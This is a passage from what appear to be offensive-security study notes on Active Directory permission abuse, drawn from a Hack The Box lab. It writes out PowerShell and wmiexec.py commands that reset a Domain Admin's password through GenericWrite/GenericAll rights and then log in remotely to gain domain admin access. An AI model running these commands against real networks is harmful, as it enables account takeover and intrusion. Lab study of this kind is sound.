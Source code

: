     $cred = new-object system.management.automation.pscredential $user,$secpass
    ```

Example:

<figure><img src="../../.gitbook/assets/Capture (2).PNG" alt=""><figcaption><p>ReadGMSAPassword in BloodHound</p></figcaption></figure>

### GenericWrite/GenericAll/AllExtendedRights

*   Allows an attacker to modify the object in question. In this example, we change the password of a Domain Admin. GenericWrite allows the modification of certain things.

    * HTB Example: _**Search**_

    How-To:

    ```python
    Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!' -force)} -Credential $cred

    #kali:

    wmiexec.py 'search/tristan.davies:Password1234!@search.htb'
    ```

    * Why would you invoke a command on localhost? This is because I am using another user’s credentials.
    * Note: Invoke-Command executes a command on another host.
    * With this, we can obtain domain admin access.
